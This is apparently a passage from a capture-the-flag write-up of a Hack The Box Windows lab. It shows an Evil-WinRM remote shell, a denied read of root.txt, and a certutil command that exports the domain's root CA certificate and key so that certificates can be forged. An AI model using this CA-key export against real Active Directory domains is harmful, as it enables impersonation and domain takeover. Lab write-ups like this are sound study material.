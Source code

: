 ```sh
d-r---       11/26/2024   6:18 PM                Desktop
d-r---       12/30/2024  12:48 PM                Documents
d-r---       11/26/2024   6:18 PM                Downloads
d-r---       11/26/2024   6:18 PM                Favorites
d-r---       11/26/2024   6:18 PM                Links
d--hsl        11/3/2024   1:05 AM                Local Settings
d-r---       11/26/2024   6:18 PM                Music
d--hsl        11/3/2024   1:05 AM                My Documents
d--hsl        11/3/2024   1:05 AM                NetHood
d-r---       11/26/2024   6:18 PM                Pictures
d--hsl        11/3/2024   1:05 AM                Recent
d-r---       11/26/2024   6:18 PM                Saved Games
d-r---       11/26/2024   6:18 PM                Searches
d--hsl        11/3/2024   1:05 AM                SendTo
d--hsl        11/3/2024   1:05 AM                Start Menu
d--hsl        11/3/2024   1:05 AM                Templates
d-r---       11/26/2024   6:18 PM                Videos
-a-h--         6/3/2025   1:03 AM         262144 NTUSER.DAT
-a-hs-        11/3/2024   1:05 AM         241664 ntuser.dat.LOG1
-a-hs-        11/3/2024   1:05 AM         128000 ntuser.dat.LOG2
-a-hs-        11/3/2024   1:05 AM          65536 NTUSER.DAT{b13c737b-9a1e-11ef-8ce2-080027608df8}.TM.blf
-a-hs-        11/3/2024   1:05 AM         524288 NTUSER.DAT{b13c737b-9a1e-11ef-8ce2-080027608df8}.TMContainer00000000000000000001.regtrans-ms
-a-hs-        11/3/2024   1:05 AM         524288 NTUSER.DAT{b13c737b-9a1e-11ef-8ce2-080027608df8}.TMContainer00000000000000000002.regtrans-ms
---hs-        11/3/2024   1:05 AM             20 ntuser.ini


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir -fo


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-       11/26/2024   6:18 PM            282 desktop.ini
-ar---         6/3/2025   1:03 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
```
HAM SANDWICHES something's not right.

However we do find that we have access to the CA Root certificates. Which as the namesake of the challenge, we should take to mean we should just generate some certificates.
```sh
*Evil-WinRM* PS C:\Users\Ryan.k\Documents> certutil -exportPFX Certificate-LTD-CA ca.pfx
MY "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
```